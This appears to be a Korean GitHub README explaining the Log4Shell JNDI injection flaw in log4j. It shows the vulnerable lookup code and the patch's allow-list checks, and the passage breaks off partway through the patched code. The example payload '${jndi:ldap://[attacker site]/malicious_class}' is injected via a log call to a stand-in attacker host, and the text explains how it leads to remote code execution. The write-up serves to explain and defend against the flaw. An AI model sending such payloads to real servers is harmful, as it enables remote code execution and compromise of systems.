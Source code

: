 # log4j-explain
log4j는 전 세계적으로 인기있는 logging library로 Mincraft, Apple iCloud, Apache, Twitter, Steam, Amazon, Tesla 등 현재 수많은 소프트웨어에서 사용되고 있습니다. 이러한 log4j에서 원격 코드 실행이 가능한 JNDI Injection 취약점이 발견되었습니다.

해당 취약점의 이름은 log4shell로 명명되었으며 log4j를 사용하는 소프트웨어 대부분을 공격 가능한 높은 파급력과 비교적 간단하다는 점 때문에 취약점의 위험성을 평가하는 지표인 cvss 점수의 최고점 10.0이 부여되었습니다. log4shell 취약점의 영향을 받는 소프트웨어는 링크에서 확인할 수 있으며, 2021/12/12 기준 지속적으로 업데이트되고 있습니다.



취약점은 JndiManager.java 의 JNDI lookup 기능에서 발견되었습니다.

public <T> T lookup(final String name) throws NamingException {
        return (T) this.context.lookup(name);
}
JNDI(Java Naming and Directory Interface)는 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격지 서버의 객체를 바인딩해 애플리케이션에서 접근할 수 있는 기능입니다. 이러한 외부 디렉터리 서비스 프로토콜은 대표적으로 LDAP(Lightweight Directory Access Protocol)과 LDAPS(Secure LDAP)이 있습니다.

해당 lookup 기능의 name 매개변수에 ${jndi:ldap://[attacker site]/malicious_class} 와 같이 해커가 제어하는 서버의 악성 클래스 경로를 전달하게 되면 lookup은 ${} 안의 내용을 파싱해 실행합니다. 이때 JNDI:LDAP 프로토콜로 접근하는 외부 디렉터리 서비스에 대한 검증이 존재하지 않아 해커의 악성 클래스를 바인딩하게 되고 악성 클래스에 포함된 임의 코드를 원격에서 실행할 수 있습니다.

String userInput = "${jndi:ldap://[attacker site]/malicious_class}";
logger.info("log {} ", userInput)
위와 같이 취약한 서버가 log4j를 통해 request와 같은 user input을 기록하는 경우 원격 코드 실행이 트리거 됩니다.

JNDI와 JNDI Injection은 [하루한줄] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점에서도 활용되었습니다.

패치는 lookup의 매개변수 name에 전달되는 프로토콜 및 ldap 서버, 클래스에 대한 필터를 추가하는 코드를 추가하는 것으로 이루어졌습니다.

public synchronized <T> T lookup(final String name) throws NamingException {
        try {
            URI uri = new URI(name);
            if (uri.getScheme() != null) {
                if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                    LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                    return null;
                }
                if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                    if (!allowedHosts.contains(uri.getHost())) {
                        LOGGER.warn("Attempt to access ldap server not in allowed list");
                        return null;
                    }
                    Attributes attributes = this.context.getAttributes(name);
                    if (attributes != null) {
                        // In testing the "key" for attributes seems to be lowercase while the attribute id is
                        // camelcase, but that may just be true for the test LDAP used here. This copies the Attributes
                        // to a Map ignoring the "key" and using the Attribute's id as the key in the Map so it matches
                        // the Java schema.
                        Map<String, Attribute> attributeMap = new HashMap<>();
                        NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                        while (enumeration.hasMore()) {
                            Attribute attribute = enumeration.next();
                            attributeMap.put(attribute.getID(), attribute);
                        }
                        Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                        if (attributeMap.get(SERIALIZED_DATA) != null) {
                            if (classNameAttr != null) {
                                String className = classNameAttr.get().toString();
                                if (!allowedClasses.contains(className)) {
                                    LOGGER.warn("Deserialization of {} is not allowed", className);
                                    return null;
                                }
                            } else {
                                LOGGER.warn("No class name provided for {}", name);
                                return null;
                            }
                        } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                                || attributeMap.get(OBJECT_FACTORY) != null) {
                            LOGGER.warn("Referenceable class is not allowed for {}", name);
                            return null;
                        }
                    }
                }
            }
        } catch (URISyntaxException ex) {
            // This is OK.
